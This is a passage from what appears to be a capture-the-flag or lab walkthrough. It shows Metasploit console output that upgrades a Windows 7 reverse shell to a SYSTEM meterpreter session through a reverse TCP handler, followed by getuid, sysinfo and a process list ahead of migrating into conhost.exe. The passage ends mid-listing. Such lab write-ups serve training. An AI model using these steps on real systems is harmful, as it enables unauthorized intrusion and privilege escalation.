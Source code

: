 LHOST => 10.10.31.24

msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions

Id  Name  Type               Information  Connection
--  ----  ----               -----------  ----------
1         shell x64/windows               10.10.31.24:4444 -> 10.10.57.41:49186 (10.10.57.41)

msf5 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1{% endraw %}{% endcapture %} {% include code.html code=code %}

Exploit to create `meterpreter` shell `session` from regular shell.
{% capture code %}{% raw %}msf5 post(multi/manage/shell_to_meterpreter) > exploit

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.31.24:4433
[*] Post module execution completed
[*] Sending stage (176195 bytes) to 10.10.57.41
[*] Meterpreter session 2 opened (10.10.31.24:4433 -> 10.10.57.41:49195) at 2021-04-24 03:07:17 +0000
[*] Stopping exploit/multi/handler

msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions

Id  Name  Type                     Information                   Connection
--  ----  ----                     -----------                   ----------
1         shell x64/windows                                      10.10.31.24:4444 -> 10.10.57.41:49186 (10.10.57.41)
2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.31.24:4433 -> 10.10.57.41:49195 (10.10.57.41)

msf5 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > {% endraw %}{% endcapture %} {% include code.html code=code %}

Check the `user` and `system` information.
{% capture code %}{% raw %}meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows{% endraw %}{% endcapture %} {% include code.html code=code %}

Check the current processes and migrate to `conhost.exe` process.
{% capture code %}{% raw %}meterpreter > ps

Process List

PID   PPID  Name                  Arch  Session  User                          Path
---   ----  ----                  ----  -------  ----                          ----
0     0     [System Process]
4     0     System                x64   0
416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
428   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
488   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
564   556   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
